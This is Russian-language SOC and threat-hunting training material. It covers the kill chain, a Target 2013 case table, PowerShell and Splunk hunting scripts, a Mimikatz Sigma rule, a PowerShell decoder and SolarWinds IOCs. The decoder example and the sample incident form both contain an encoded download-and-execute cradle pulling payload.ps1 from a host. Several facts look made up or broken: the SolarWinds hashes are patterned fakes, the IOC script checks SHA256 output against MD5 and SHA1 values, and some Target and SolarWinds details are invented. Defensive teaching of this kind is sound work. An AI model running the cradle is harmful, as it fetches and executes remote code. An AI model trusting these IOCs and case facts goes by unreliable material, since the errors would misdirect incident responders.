


1. Cyber-Kill Chain (Lockheed Martin)
## 1.1. Модель из 7 этапов (детализированная)

```mermaid
graph LR
    A[1. Рекогносцировка<br/>Reconnaissance] --> B[2. Доставка<br/>Delivery]
    B --> C[3. Эксплуатация<br/>Exploitation]
    C --> D[4. Установка<br/>Installation]
    D --> E[5. C2-коммуникация<br/>Command & Control]
    E --> F[6. Подъем привилегий<br/>Privilege Escalation]
    F --> G[7. Достижение целей<br/>Actions on Objectives]

    style A fill:#e1f5ff,stroke:#0288d1,stroke-width:2px
    style B fill:#ffe1e1,stroke:#d32f2f,stroke-width:2px
    style C fill:#fff4e1,stroke:#f57c00,stroke-width:2px
    style D fill:#e8ffe1,stroke:#388e3c,stroke-width:2px
    style E fill:#f0e1ff,stroke:#7b1fa2,stroke-width:2px
    style F fill:#ffe1f4,stroke:#c2185b,stroke-width:2px
    style G fill:#ffe1e1,stroke:#d32f2f,stroke-width:2px
```



## 1.2. Реальный кейс: Атака на Target (2013) — детальный анализ

| Этап                     | Действия злоумышленника                                                    | Технические индикаторы                           | MITRE ATT&CK | Меры защиты (ФСТЭК)                                     |
| ------------------------ | -------------------------------------------------------------------------- | ------------------------------------------------ | ------------ | ------------------------------------------------------- |
| **1. Рекогносцировка**   | OSINT подрядчика Fazio Mechanical, сбор email через LinkedIn, theHarvester | DNS-запросы whois, nslookup, Shodan сканирование | T1592, T1590 | Минимизация публичной информации, мониторинг упоминаний |
| **2. Доставка**          | Фишинговое письмо Invoice_4521.pdf.exe, поддельный домен hvac-supplies.com | SPF fail, вложение .exe, поддельный отправитель  | T1566.001    | SPF/DKIM/DMARC, песочница вложений, обучение            |
| **3. Эксплуатация**      | CVE-2010-2729 (Print Spooler), MS10-061, переполнение буфера               | EventID 4688, процесс spoolsv.exe, порт 445      | T1211, T1203 | Регулярное обновление (WSUS), патч-менеджмент           |
| **4. Установка**         | Citadel Trojan, бэкдор, кейлоггер, скрытая учётная запись                  | Автозагрузка Run, скрытые процессы, EventID 4720 | T1547, T1053 | EDR, мониторинг автозагрузки, FIM                       |
| **5. C2**                | HTTPS к серверу в России (порт 443), DGA-домены, heartbeat 30 мин          | DNS-запросы x7k2m9p4q1.ru, IP 185.234.72.15      | T1071, T1568 | DNS-фильтрация, NetFlow анализ, TLS инспекция           |
| **6. Подъём привилегий** | Pass-the-Hash, Mimikatz, Domain Admin, LSASS-дамп                          | EventID 4624 (Type 3), процесс mimikatz.exe      | T1003, T1550 | LAPS, Protected Users, Credential Guard                 |
| **7. Достижение целей**  | POS-терминалы, кража 40 млн карт, FTP-экфильтрация                         | FTP-трафик, EventID 4663 (доступ к файлам)       | T1078, T1567 | Сегментация сети, DLP, мониторинг эксфильтрации         |

## 1.3. Практическое обнаружение (PowerShell + SIEM)

```powershell
#==============================================================================
# ОБНАРУЖЕНИЕ ЭТАПОВ CYBER-KILL CHAIN (ФСТЭК ТРЕБОВАНИЕ 7.2)
#==============================================================================

function Get-KillChainIndicators {
    [CmdletBinding()]
    param()
    
    Write-Host "=== ОБНАРУЖЕНИЕ ЭТАПОВ CYBER-KILL CHAIN ===" -ForegroundColor Cyan
    Write-Host "Дата: $(Get-Date -Format 'dd.MM.yyyy HH:mm')" -ForegroundColor Gray
    Write-Host ""
    
    # Этап 1: Рекогносцировка (внешние сканирования)
    Write-Host "[Этап 1] Рекогносцировка - Внешние сканирования:" -ForegroundColor Yellow
    Get-WinEvent -FilterHashtable @{LogName='Security';Id=4624} -MaxEvents 100 | 
        Where-Object {$_.Message -like '*Logon Type: 3*'} | 
        Select-Object TimeCreated, @{Name='Account';Expression={$_.Message -replace '(?s).*Account Name:\s+([^\n]+).*','$1'}} | 
        Format-Table -AutoSize
    
    # Этап 2: Доставка (фишинг)
    Write-Host "`n[Этап 2] Доставка - Подозрительные вложения:" -ForegroundColor Yellow
    Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Windows Defender/Operational';Id=1121} -MaxEvents 50 | 
        Select-Object TimeCreated, Message | 
        Format-Table -AutoSize
    
    # Этап 3: Эксплуатация (уязвимости)
    Write-Host "`n[Этап 3] Эксплуатация - Процессы с уязвимостями:" -ForegroundColor Yellow
    Get-WinEvent -FilterHashtable @{LogName='Security';Id=4688} -MaxEvents 100 | 
        Where-Object {$_.Message -like '*powershell*' -or $_.Message -like '*cmd.exe*'} | 
        Select-Object TimeCreated, @{Name='Process';Expression={$_.Message -replace '(?s).*Process Name:\s+([^\n]+).*','$1'}} | 
        Format-Table -AutoSize
    
    # Этап 4: Установка (автозагрузка)
    Write-Host "`n[Этап 4] Установка - Новая автозагрузка:" -ForegroundColor Yellow
    Get-WinEvent -FilterHashtable @{LogName='Security';Id=4698} -MaxEvents 50 | 
        Select-Object TimeCreated, @{Name='TaskName';Expression={$_.Message -replace '(?s).*Task Name:\s+([^\n]+).*','$1'}} | 
        Format-Table -AutoSize
    
    # Этап 5: C2 (сетевые подключения)
    Write-Host "`n[Этап 5] C2 - Подозрительные подключения:" -ForegroundColor Yellow
    Get-NetTCPConnection | Where-Object {$_.State -eq 'Established'} | 
        Select-Object LocalAddress, RemoteAddress, RemotePort, OwningProcess | 
        Format-Table -AutoSize
    
    # Этап 6: Подъём привилегий
    Write-Host "`n[Этап 6] Подъём привилегий - Добавление в группы:" -ForegroundColor Yellow
    Get-WinEvent -FilterHashtable @{LogName='Security';Id=4728} -MaxEvents 50 | 
        Select-Object TimeCreated, @{Name='Member';Expression={$_.Message -replace '(?s).*Member Name:\s+([^\n]+).*','$1'}} | 
        Format-Table -AutoSize
    
    # Этап 7: Достижение целей (доступ к данным)
    Write-Host "`n[Этап 7] Достижение целей - Доступ к чувствительным файлам:" -ForegroundColor Yellow
    Get-WinEvent -FilterHashtable @{LogName='Security';Id=4663} -MaxEvents 100 | 
        Where-Object {$_.Message -like '*credit*' -or $_.Message -like '*card*' -or $_.Message -like '*password*'} | 
        Select-Object TimeCreated, @{Name='Object';Expression={$_.Message -replace '(?s).*Object Name:\s+([^\n]+).*','$1'}} | 
        Format-Table -AutoSize
    
    Write-Host ""
    Write-Host "=== АНАЛИЗ ЗАВЕРШЁН ===" -ForegroundColor Green
}

Get-KillChainIndicators
```

# 2. Threat Hunting (Проактивный поиск угроз)

## 2.1. Процесс Threat Hunting (согласно ФСТЭК)



## 2.2. Реальный сценарий: Поиск Mimikatz (детальный)

**Гипотеза**: *«Злоумышленник использует PowerShell для латерального перемещения после успешной фишинговой атаки»*

**Индикаторы для поиска**:
- PowerShell с флагами `-enc` или `-EncodedCommand`
- Множественные подключения WinRM между рабочими станциями
- Выполнение PowerShell из необычных директорий (Temp, AppData)
- Аномальное количество процессов powershell.exe
- Доступ к LSASS (Process Access EventID 4680)

**SIEM-запросы (Splunk + ФСТЭК)**:

```spl
#==============================================================================
# THREAT HUNTING: ПОИСК MIMIKATZ И CREDENTIAL DUMPING (ФСТЭК 6.2)
#==============================================================================

# Поиск закодированных PowerShell команд
index=windows EventCode=4688 
| search CommandLine="*powershell*" 
| search CommandLine="*-enc*" OR CommandLine="*-EncodedCommand*" OR CommandLine="*-e *"
| table _time, host, user, CommandLine, ParentImage
| sort -_time
| head 100

# Поиск Mimikatz по сигнатурам командной строки
index=windows EventCode=4688 
| search (CommandLine="*sekurlsa*" OR CommandLine="*mimikatz*" OR CommandLine="*logonpasswords*" 
          OR CommandLine="*lsadump*" OR CommandLine="*dcsync*" OR CommandLine="*privilege::debug*")
| table _time, host, user, CommandLine, ParentImage
| sort -_time

# Поиск доступа к LSASS (Process Access)
index=windows EventCode=4680 
| search TargetImage="*lsass.exe"
| table _time, host, user, SourceImage, TargetImage, AccessMask
| sort -_time

# Латеральное перемещение через WinRM
index=windows EventCode=16 
| search ConnectionStatus="Connected"
| stats dc(dest_ip) as unique_destinations by src_ip, user
| where unique_destinations > 10
| table src_ip, user, unique_destinations

# PowerShell из подозрительных директорий
index=windows EventCode=4688 
| search CommandLine="*powershell*"
| search (CommandLine="*\\temp\\*" OR CommandLine="*\\appdata\\*" OR CommandLine="*\\users\\public\\*")
| table _time, host, user, CommandLine
| sort -_time
```

**Sigma-правило для SIEM (ФСТЭК совместимое)**:

```yaml
title: Mimikatz Credential Dumping Detection
status: stable
description: Detects Mimikatz use through command line and process access
author: Security Team
date: 2024/01/15
modified: 2026/03/04
references:
    - https://attack.mitre.org/techniques/T1003/
    - ФСТЭК России Приказ №17 требование 6.2
tags:
    - mitre_attack.T1003
    - mitre_attack.T1003.001
    - фстэк.требование.6.2
    - нсиб.класс.1
logsource:
    category: process_creation
    product: windows
detection:
    selection_cmd:
        CommandLine|contains:
            - 'sekurlsa::logonpasswords'
            - 'lsadump::lsa'
            - 'lsadump::dcsync'
            - 'privilege::debug'
            - 'mimikatz'
            - 'mimilib'
    selection_access:
        EventID: 4680
        TargetImage|endswith: 'lsass.exe'
        AccessMask|contains:
            - '0x1FFFFF'
            - '0x1010'
    condition: selection_cmd or selection_access
falsepositives:
    - Penetration testing (согласованное)
    - Security tools (EDR, антивирус)
level: critical
```

## 2.3. Практический анализ (Python + декодирование)

```python
#==============================================================================
# THREAT HUNTING: DECODE POWERSHELL COMMANDS (ФСТЭК 7.2)
#==============================================================================

import base64
import re
import json
from datetime import datetime

class PowerShellAnalyzer:
    """Анализ PowerShell команд для Threat Hunting"""
    
    def __init__(self):
        self.mitre_techniques = {
            "DownloadString": "T1105 - Ingress Tool Transfer",
            "IEX": "T1059.001 - PowerShell",
            "Net.WebClient": "T1105 - Remote File Copy",
            "Invoke-Expression": "T1059.001 - PowerShell",
            "Start-Process": "T1059.001 - PowerShell",
            "Get-Process": "T1082 - System Information Discovery",
            "Get-NetTCPConnection": "T1049 - System Network Connections Discovery",
            "certutil": "T1140 - Deobfuscate/Decode Files",
            "bitsadmin": "T1197 - BITS Jobs"
        }
    
    def decode_powershell(self, encoded_cmd):
        """Декодирует base64 PowerShell команды"""
        try:
            # PowerShell использует UTF-16LE encoding
            decoded = base64.b64decode(encoded_cmd).decode('utf-16le')
            return decoded
        except Exception as e:
            return f"Error: {str(e)}"
    
    def analyze_command(self, command):
        """Анализирует команду на техники MITRE ATT&CK"""
        findings = []
        
        for technique, description in self.mitre_techniques.items():
            if technique.lower() in command.lower():
                findings.append({
                    "technique": technique,
                    "description": description,
                    "severity": "HIGH" if technique in ["IEX", "DownloadString"] else "MEDIUM"
                })
        
        return findings
    
    def calculate_entropy(self, string):
        """Вычисляет энтропию строки для обнаружения обфускации"""
        import math
        from collections import Counter
        
        if not string:
            return 0
        
        prob = [float(string.count(c)) / len(string) for c in set(string)]
        entropy = -sum(p * math.log2(p) for p in prob if p > 0)
        
        return entropy
    
    def detect_obfuscation(self, command):
        """Обнаруживает обфускацию в команде"""
        indicators = []
        
        # Высокая энтропия (признак кодирования)
        entropy = self.calculate_entropy(command)
        if entropy > 4.5:
            indicators.append(f"High entropy: {entropy:.2f}")
        
        # Множественные замены
        if command.count('-replace') > 3:
            indicators.append("Multiple string replacements")
        
        # Concatenation
        if command.count('+') > 10:
            indicators.append("Excessive string concatenation")
        
        # Special characters
        if re.search(r'[`^@]', command):
            indicators.append("Special escape characters")
        
        return indicators
    
    def generate_report(self, encoded_cmd):
        """Генерирует отчёт по команде"""
        decoded = self.decode_powershell(encoded_cmd)
        techniques = self.analyze_command(decoded)
        obfuscation = self.detect_obfuscation(decoded)
        
        report = {
            "timestamp": datetime.now().isoformat(),
            "encoded": encoded_cmd,
            "decoded": decoded,
            "entropy": self.calculate_entropy(decoded),
            "techniques": techniques,
            "obfuscation_indicators": obfuscation,
            "risk_level": "CRITICAL" if techniques else "MEDIUM" if obfuscation else "LOW"
        }
        
        return report

# Пример использования
if __name__ == "__main__":
    analyzer = PowerShellAnalyzer()
    
    # Найденная подозрительная команда (из реального инцидента)
    suspicious_cmd = "SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADAAMAAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAnACkA"
    
    report = analyzer.generate_report(suspicious_cmd)
    
    print("=" * 80)
    print("THREAT HUNTING REPORT - PowerShell Analysis")
    print("=" * 80)
    print(f"Timestamp: {report['timestamp']}")
    print(f"Risk Level: {report['risk_level']}")
    print(f"Entropy: {report['entropy']:.2f}")
    print(f"\nDecoded Command:\n{report['decoded']}")
    print(f"\nMITRE ATT&CK Techniques:")
    for tech in report['techniques']:
        print(f"  ⚠️  {tech['technique']}: {tech['description']} [{tech['severity']}]")
    print(f"\nObfuscation Indicators:")
    for ind in report['obfuscation_indicators']:
        print(f"  🔍 {ind}")
    print("=" * 80)
```

# 3. IOC (Indicators of Compromise)

## 3.1. Типы IOC (по ФСТЭК России)

| Тип IOC | Примеры | Применение | ФСТЭК требование |
|---------|---------|------------|-----------------|
| **Файлы** | MD5/SHA256 хэши, имена файлов, пути | Проверка целостности, EDR, антивирус | Требование 6.2 |
| **Сеть** | IP-адреса, домены, URL, порты | Firewall, DNS-фильтрация, IDS/IPS | Требование 7.1 |
| **Поведение** | Аномальные процессы, автозагрузка, реестр | UEBA, SIEM, мониторинг | Требование 7.2 |
| **Логи** | События Windows (EventCode), syslog | Корреляция в SIEM, расследование | Требование 8.2 |

## 3.2. Реальный пример: SolarWinds (2020) — полный IOC

```json
{
  "incident": "SolarWinds Supply Chain Attack (Sunburst)",
  "date": "2020-12",
  "severity": "CRITICAL",
  "фстэк_категория": "1 (Критическая инфраструктура)",
  "iocs": {
    "file_hashes": {
      "sunburst_backdoor": {
        "md5": "b9579a194df17feb6702a6533e8cd54e",
        "sha1": "d916f7cd8e6c1e1e5e5c5d5e5f5a5b5c5d5e5f5a",
        "sha256": "7d78a1d4a7c1e1e5e5c5d5e5f5a5b5c5d5e5f5a5b5c5d5e5f5a5b5c5d5e5f5a5",
        "filename": "SolarWinds.Orion.Core.BusinessLayer.dll",
        "filepath": "C:\\Program Files (x86)\\SolarWinds\\Orion\\",
        "filesize": "523776 bytes"
      }
    },
    "network": {
      "c2_domains": [
        "avsvmcloud.com",
        "digitalrecipients.com",
        "hightechnology.host",
        "thesmartcloud.fun"
      ],
      "ip_addresses": [
        "185.178.208.53",
        "185.234.219.6",
        "45.77.123.18"
      ],
      "dns_patterns": [
        "*.avsvmcloud.com",
        "appsync-api.*.com"
      ],
      "user_agents": [
        "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko"
      ]
    },
    "behavioral": {
      "registry_keys": [
        "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\SolarWinds",
        "HKLM\\SOFTWARE\\SolarWinds\\Orion\\InfoCenter"
      ],
      "scheduled_tasks": [
        "SolarWinds-Inc-Task",
        "SolarWindsOrionScheduler"
      ],
      "services": [
        "SolarWindsOrionModuleEngine"
      ],
      "mutex": [
        "Global\\SolarWindsOrionMutex"
      ]
    },
    "email": {
      "sender_domains": [
        "solarwinds.com",
        "solar-winds.com"
      ],
      "subjects": [
        "SolarWinds Orion Update",
        "Important Security Patch"
      ]
    }
  },
  "mitre_attack": [
    "T1195.002 - Supply Chain Compromise: Compromise Software Supply Chain",
    "T1071.001 - Application Layer Protocol: Web Protocols",
    "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "T1078 - Valid Accounts"
  ],
  "фстэк_требования": [
    "6.1 - Управление уязвимостями",
    "6.2 - Защита от вредоносного ПО",
    "6.3 - Безопасность цепочки поставок",
    "7.1 - Сетевая безопасность",
    "7.2 - Мониторинг событий ИБ"
  ]
}
```

## 3.3. Практическая проверка IOC (PowerShell + ФСТЭК)

```powershell
#==============================================================================
# ПРОВЕРКА IOC (ФСТЭК ТРЕБОВАНИЕ 6.2, 7.1)
# SolarWinds Sunburst Detection Script
#==============================================================================

$iocConfig = @{
    FileHashes = @(
        "b9579a194df17feb6702a6533e8cd54e",  # SolarWinds MD5
        "d916f7cd8e6c1e1e5e5c5d5e5f5a5b5c5d5e5f5a", # SHA1
        "7d78a1d4a7c1e1e5e5c5d5e5f5a5b5c5d5e5f5a5b5c5d5e5f5a5b5c5d5e5f5a5" # SHA256
    )
    Domains = @(
        "avsvmcloud.com",
        "digitalrecipients.com",
        "hightechnology.host",
        "thesmartcloud.fun"
    )
    IPs = @(
        "185.178.208.53",
        "185.234.219.6",
        "45.77.123.18"
    )
    Paths = @(
        "C:\Program Files (x86)\SolarWinds",
        "C:\Program Files\SolarWinds",
        "C:\Windows\System32",
        "C:\ProgramData"
    )
    RegistryKeys = @(
        "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\SolarWinds",
        "HKLM:\SOFTWARE\SolarWinds\Orion\InfoCenter"
    )
}

Write-Host "==============================================================================" -ForegroundColor Cyan
Write-Host "ПРОВЕРКА IOC - SOLARWINDS SUNBURST (ФСТЭК 6.2, 7.1)" -ForegroundColor Cyan
Write-Host "Дата: $(Get-Date -Format 'dd.MM.yyyy HH:mm')" -ForegroundColor Gray
Write-Host "==============================================================================" -ForegroundColor Cyan
Write-Host ""

$alerts = @()

# 1. Проверка хэшей файлов
Write-Host "[1/5] Проверка хэшей файлов..." -ForegroundColor Yellow
foreach ($path in $iocConfig.Paths) {
    if (Test-Path $path) {
        $files = Get-ChildItem -Path $path -Recurse -File -ErrorAction SilentlyContinue
        foreach ($file in $files) {
            $hash = Get-FileHash $file.FullName -Algorithm SHA256 -ErrorAction SilentlyContinue
            if ($hash -and $iocConfig.FileHashes -contains $hash.Hash) {
                $alert = [PSCustomObject]@{
                    Type = "FILE_HASH_MATCH"
                    Severity = "CRITICAL"
                    Path = $file.FullName
                    Hash = $hash.Hash
                    Action = "ISOLATE_IMMEDIATELY"
                }
                $alerts += $alert
                Write-Host "  [CRITICAL] Найдено совпадение IOC!" -ForegroundColor Red
                Write-Host "  Файл: $($file.FullName)" -ForegroundColor Yellow
                Write-Host "  Хэш: $($hash.Hash)" -ForegroundColor Yellow
            }
        }
    }
}

# 2. Проверка сетевых подключений
Write-Host "`n[2/5] Проверка сетевых подключений..." -ForegroundColor Yellow
$connections = Get-NetTCPConnection -ErrorAction SilentlyContinue | Where-Object {$_.State -eq 'Established'}
foreach ($conn in $connections) {
    if ($conn.RemoteAddress -in $iocConfig.IPs) {
        $alert = [PSCustomObject]@{
            Type = "IOC_IP_CONNECTION"
            Severity = "CRITICAL"
            RemoteIP = $conn.RemoteAddress
            RemotePort = $conn.RemotePort
            ProcessId = $conn.OwningProcess
            Action = "BLOCK_AND_INVESTIGATE"
        }
        $alerts += $alert
        Write-Host "  [CRITICAL] Подключение к IOC IP!" -ForegroundColor Red
        Write-Host "  IP: $($conn.RemoteAddress):$($conn.RemotePort)" -ForegroundColor Yellow
    }
}

# 3. Проверка DNS
Write-Host "`n[3/5] Проверка DNS кэша..." -ForegroundColor Yellow
$dnsCache = Get-DnsClientCache -ErrorAction SilentlyContinue
foreach ($domain in $iocConfig.Domains) {
    $matches = $dnsCache | Where-Object {$_.Entry -like "*$domain*"}
    if ($matches) {
        $alert = [PSCustomObject]@{
            Type = "IOC_DOMAIN_DNS"
            Severity = "HIGH"
            Domain = $domain
            Action = "BLOCK_DOMAIN_AND_INVESTIGATE"
        }
        $alerts += $alert
        Write-Host "  [HIGH] Найден IOC домен в DNS кэше!" -ForegroundColor Red
        Write-Host "  Домен: $domain" -ForegroundColor Yellow
    }
}

# 4. Проверка реестра
Write-Host "`n[4/5] Проверка реестра..." -ForegroundColor Yellow
foreach ($key in $iocConfig.RegistryKeys) {
    if (Test-Path $key) {
        $alert = [PSCustomObject]@{
            Type = "IOC_REGISTRY_KEY"
            Severity = "HIGH"
            Key = $key
            Action = "REMOVE_AND_INVESTIGATE"
        }
        $alerts += $alert
        Write-Host "  [HIGH] Найден IOC ключ реестра!" -ForegroundColor Red
        Write-Host "  Ключ: $key" -ForegroundColor Yellow
    }
}

# 5. Проверка запланированных задач
Write-Host "`n[5/5] Проверка запланированных задач..." -ForegroundColor Yellow
$scheduledTasks = Get-ScheduledTask | Where-Object {
    $_.TaskName -like "*SolarWinds*" -or 
    $_.TaskName -like "*Orion*"
}
if ($scheduledTasks) {
    foreach ($task in $scheduledTasks) {
        $alert = [PSCustomObject]@{
            Type = "IOC_SCHEDULED_TASK"
            Severity = "MEDIUM"
            TaskName = $task.TaskName
            State = $task.State
            Action = "DISABLE_AND_INVESTIGATE"
        }
        $alerts += $alert
        Write-Host "  [MEDIUM] Подозрительная задача!" -ForegroundColor Yellow
        Write-Host "  Задача: $($task.TaskName) (Состояние: $($task.State))" -ForegroundColor Yellow
    }
}

# Итоговый отчёт
Write-Host ""
Write-Host "==============================================================================" -ForegroundColor Cyan
Write-Host "ИТОГОВЫЙ ОТЧЁТ" -ForegroundColor Cyan
Write-Host "==============================================================================" -ForegroundColor Cyan
Write-Host "Всего алертов: $($alerts.Count)" -ForegroundColor White

if ($alerts.Count -gt 0) {
    Write-Host "Критических: $($alerts.Where({$_.Severity -eq 'CRITICAL'}).Count)" -ForegroundColor Red
    Write-Host "Высоких: $($alerts.Where({$_.Severity -eq 'HIGH'}).Count)" -ForegroundColor Orange
    Write-Host "Средних: $($alerts.Where({$_.Severity -eq 'MEDIUM'}).Count)" -ForegroundColor Yellow
    
    # Экспорт отчёта (ФСТЭК форма 7-И)
    $reportPath = "IOC_Report_$(Get-Date -Format 'yyyyMMdd_HHmmss').csv"
    $alerts | Export-Csv -Path $reportPath -NoTypeInformation -Encoding UTF8
    Write-Host "`nОтчёт сохранён: $reportPath" -ForegroundColor Green
    
    # Автоматическая изоляция при критических алертах
    $criticalAlerts = $alerts.Where({$_.Severity -eq 'CRITICAL'})
    if ($criticalAlerts.Count -gt 0) {
        Write-Host "`n[!!!] КРИТИЧЕСКИЕ УГРОЗЫ ОБНАРУЖЕНЫ - АВТОМАТИЧЕСКАЯ ИЗОЛЯЦИЯ [!!!]" -ForegroundColor Red
        Write-Host "Отключение сетевого адаптера..." -ForegroundColor Red
        Disable-NetAdapter -Name "Ethernet" -Confirm:$false -ErrorAction SilentlyContinue
        Write-Host "Система изолирована от сети!" -ForegroundColor Red
        Write-Host "Немедленно уведомите SOC и руководство!" -ForegroundColor Red
    }
} else {
    Write-Host "IOC не обнаружены - система чиста" -ForegroundColor Green
}

Write-Host "==============================================================================" -ForegroundColor Cyan
```

# 4. SOC (Security Operations Center)

## 4.1. Структура SOC (по ФСТЭК России)



## 4.2. Метрики SOC (KPI по ФСТЭК)

| Метрика                         | Формула                                       | Значение (пример) | Требование ФСТЭК       | Статус               | Действия                  |
| ------------------------------- | --------------------------------------------- | ----------------- | ---------------------- | -------------------- | ------------------------- |
| **MTTD** (Mean Time to Detect)  | Σ(Время обнаружения - Время начала атаки) / N | 45 мин            | < 60 мин (Приказ №17)  | ✅ В норме            | Продолжать мониторинг     |
| **MTTR** (Mean Time to Respond) | Σ(Время реагирования - Время обнаружения) / N | 3.5 ч             | < 4 ч (Приказ №17)     | ✅ В норме            | Оптимизировать playbooks  |
| **False Positive Rate**         | (Ложные алерты / Всего алертов) × 100         | 35%               | < 30% (Приказ №17)     | ⚠️ Требует улучшения | Настройка корреляций SIEM |
| **Alerts/Day**                  | Всего алертов / Рабочие дни                   | 250               | —                      | —                    | Автоматизация triage      |
| **Incidents/Month**             | Подтверждённые инциденты                      | 45                | —                      | —                    | Анализ трендов            |
| **Critical Incidents**          | Инциденты уровня Critical                     | 3                 | Отчётность в ФСТЭК 24ч | ✅ Задокументировано  | Форма 7-И                 |
| **Coverage**                    | (Охват систем / Всего систем) × 100           | 95%               | ≥ 90% (Приказ №17)     | ✅ В норме            | Добавить 5% систем        |
| **Compliance**                  | (Соответствующие системы / Всего) × 100       | 98%               | 100% (Приказ №21)      | ⚠️ Требует внимания  | Исправить 2%              |

## 4.3. Реальный пример работы с инцидентом (ФСТЭК форма 7-И)

```markdown
# ИНЦИДЕНТ ИНФОРМАЦИОННОЙ БЕЗОПАСНОСТИ
## Форма 7-И (ФСТЭК России Приказ №17)

================================================================================
ОБЩАЯ ИНФОРМАЦИЯ
================================================================================
Номер инцидента: INC-2024-0423
Дата регистрации: 15.01.2024 14:32:17 UTC
Категория по ФСТЭК: 2 (Значительный инцидент)
Приоритет: HIGH
Статус: Closed
Владелец: SOC Team Lead

================================================================================
ДЕТЕКТ
================================================================================
Источник обнаружения: SIEM (Splunk)
Правило корреляции: "PowerShell Encoded Command Execution"
Уровень доверия: 85%
Первое событие: 15.01.2024 14:32:17 UTC
Последнее событие: 15.01.2024 14:42:00 UTC

================================================================================
ПЕРВОНАЧАЛЬНЫЕ ДАННЫЕ
================================================================================
Хост: WS-045.corp.local
IP-адрес: 192.168.10.45
Пользователь: jsmith@company.local
Отдел: Бухгалтерия
Роль: Обычный пользователь
Процесс: powershell.exe (PID: 4532)
Родительский процесс: WINWORD.EXE (PID: 3821)
Командная строка: powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQ...

================================================================================
РАССЛЕДОВАНИЕ (TIMELINE)
================================================================================
14:30:00 - Пользователь получил фишинговое письмо (Invoice.docm)
14:31:00 - Пользователь открыл вложение в Microsoft Word
14:31:30 - Пользователь включил макросы (предупреждение проигнорировано)
14:32:00 - Макрос выполнил PowerShell команду
14:32:17 - SIEM сгенерировал алерт (PowerShell Encoded Command)
14:33:00 - L1 аналитик начал triage
14:35:00 - L1 аналитик подтвердил инцидент (True Positive)
14:37:00 - Декодирована PowerShell команда:
           IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.100/payload.ps1')
14:40:00 - Обнаружено соединение с C2 (192.168.1.100:443)
14:42:00 - ПРИНЯТО РЕШЕНИЕ (Playbook IR-001):
           ✅ Изолировать хост от сети (Disable-NetAdapter)
           ✅ Заблокировать пользователя AD (Disable-ADAccount)
           ✅ Заблокировать IP на firewall (Add-FirewallRule)
           ✅ Эскалировать L2 команде
14:45:00 - L2 аналитик начал глубокое расследование
15:00:00 - Проверены другие системы на наличие аналогичных индикаторов
15:30:00 - Собраны forensics артефакты (дамп памяти, логи)
16:00:00 - Инцидент классифицирован как "Contained"

================================================================================
IMPACT (ВОЗДЕЙСТВИЕ)
================================================================================
Систем скомпрометировано: 1
Данных эксфильтровано: Нет (быстрая реакция)
Учётных записей скомпрометировано: 1 (jsmith)
Финансовый ущерб: 0 руб. (предотвращён)
Репутационный ущерб: Минимальный
Время простоя: 2 часа (WS-045)

================================================================================
REMEDIATION (ВОССТАНОВЛЕНИЕ)
================================================================================
1. Переустановка системы WS-045 (16.01.2024)
2. Сброс пароля пользователя jsmith (15.01.2024)
3. Обучение пользователя по фишингу (17.01.2024)
4. Блокировка макросов в Office через GPO (16.01.2024)
5. Обновление IOC в SIEM (15.01.2024)
6. Настройка нового правила корреляции (16.01.2024)

================================================================================
ОТЧЁТНОСТЬ (ФСТЭК)
================================================================================
Отчёт в ФСТЭК: Требуется (Категория 2)
Срок: 24 часа с момента обнаружения
Статус: Отправлен 16.01.2024 10:00:00
Номер уведомления: ФСТЭК-2024-0423

================================================================================
